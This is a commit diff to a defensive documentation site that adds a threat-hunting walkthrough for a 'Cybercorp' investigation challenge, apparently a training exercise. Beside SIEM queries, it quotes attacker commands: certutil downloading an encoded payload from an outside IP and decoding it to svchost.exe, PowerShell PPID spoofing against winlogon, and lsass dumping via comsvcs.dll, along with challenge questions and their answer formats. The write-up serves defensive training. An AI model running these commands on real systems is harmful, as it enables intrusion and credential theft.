

Before and after one commit to tymyrddin/blue-edr, a Sphinx documentation site: the page built from source/docs/cd/cybercorp2.md, in a window 1280 px wide and 1400 px high, scrolled down 7415 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Cybercorp case 2 challenge

````diff
--- a/source/docs/cd/cybercorp2.md
+++ b/source/docs/cd/cybercorp2.md
@@ -140,6 +140,9 @@ $spawnTo = "c:\Windows\System32\dwm.exe"
 4. [T1134.004](https://attack.mitre.org/techniques/T1134/004/): Adversaries may spoof the parent process identifier (PPID) of a new process to evade process-monitoring defenses or to elevate privileges. A handle to `winlogon.exe` is obtained:
 
 ```text
+# ppid = winlogon PID
+[int]$ppid = Get-Process -Name "winlogon" | Select -expand ID
+...
 $hSpoofParent = [Kernel32]::OpenProcess(0x1fffff, 0, $ppid)
 ```
 
@@ -180,22 +183,63 @@ Put the PID of the spawned process `dwm.exe` first.
 
 ***Q10 The malicious code run by the script is a Reverse Shell. Identify the IP address and port number of its command center. Sample answer: 192.168.0.1:123***
 
+```text
+(*winlogon.exe* OR *dwm.exe*) AND event_type: NetworkConnection
+```
 
+The network connection comes from yet another process, `rundll32.exe`. Another layer of obfuscation.
 
-***Q11 As a result of running a malicious code, which we talk about in questions 9 and 10, the attacker got a shell on the compromised host. Using this access, the attacker downloaded the Active Directory collection utility to the host in an encoded form. Specify a comma-separated, non-spaced link where the encoded version of the utility was downloaded and a SHA256 hash of the decoded version that was directly run by the attacker on the compromised host. Sample answer: http://domain.com/file,e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***
+***Q11 As a result of running a malicious code, which we talked about in questions 9 and 10, the attacker got a shell on the compromised host. Using this access, the attacker downloaded the Active Directory collection utility to the host in an encoded form. Specify a comma-separated, non-spaced link where the encoded version of the utility was downloaded and a SHA256 hash of the decoded version that was directly run by the attacker on the compromised host. Sample answer: http://domain.com/file,e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***
 
+Looking for `NetworkConnection AND FileCreate` events after the initial `rundll` network connection took place. Limiting results:
 
+```text
+(event_type : "NetworkConnection" or event_type : "filecreate") and not proc_p_file_path : "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"
+```
+
+1. At `23:46:10.000`, `certutil` (which has a history of being used as a lolbin) makes a network connection, downloads a file `chrome_installer.log2`, and creates a file by the name of `svchost.exe` and .
+
+At 23:46:10.000:
+
+```text
+certutil  -urlcache -f http://188.135.15.49/chrome_installer.log2 C:\Windows\TEMP\chrome_installer.log2:data
+```
+
+At 23:46:17.000:
+
+```text
+certutil  -decode C:\Windows\TEMP\chrome_installer.log2:data C:\Windows\TEMP\svchost.exe
+```
+
+2. Apparently, bloodhound was run.
+3. `chrome_installer.log2` is a base64 encoded form of Bloodhound, after which `certutil` was used again to decode and save it to disk as `svchost.exe`.
+
+Filtering for `C:\Windows\TEMP\svchost.exe` gives its SHA256, the answer.
 
 ***Q12 During the post-exploitation process, the attacker used one of the standard Windows utilities to create a memory dump of a sensitive system process that contains credentials of active users in the system. Specify the name of the executable file of the utility used and the name of the memory dump file created, separated by a comma without spaces. Sample answer: program.exe,file.ext***
 
+```text
+event_type: FileCreate OR event_type: FileOpen
+```
 
+`rundll32.exe` is used to invoke the exported MiniDump function from `C:\windows\system32\comsvcs.dll` and dump `lsass`. See [LOLBAS](https://lolbas-project.github.io/lolbas/Libraries/comsvcs/).
 
 ***Q13 Presumably, the attacker extracted the password of one of the privileged accounts from the memory dump we discussed in the previous question and used it to run a malicious code on one of the domain controllers. What account are we talking about? Specify its username and password as the answer in login:password format. Sample answer: kate:qwerty***
 
+To execute code on the DC there must be some kind of lateral movement. Looking for suspicious events after the `lsass` dumping:
 
+```text
+event_type: "NetworkConnection" and dev_fqdn: "DC01-CYBERCORP.cybercorp.com"
+```
 
 ***Q14 A compromised user account is a member of two Built-in privileged groups on the Domain Controller. The first group is the Administrators. Find the second group. Provide the SID of this group as an answer. Sample answer: S-1-5-32-545***
 
-
+```text
+dev_fqdn: DC01-CYBERCORP.cybercorp.com AND event_type: AccountGroupList AND *inventory*
+```
 
 ***Q15 As a result of malicious code execution on the domain controller using a compromised account, the attacker got a reverse shell on that host. This shell used a previously not seen IP address as the command center. Specify its address as the answer. Sample answer: 192.168.0.1***
+
+```text
+dev_fqdn: DC01-CYBERCORP.cybercorp.com AND (proc_id:4460 OR proc_p_id:4460 OR proc_c_id:4460 OR proc_tgt_id:4460)
+```
````
Also changed, not shown: other parts of source/docs/cd/cybercorp2.md (+1 -1 lines).
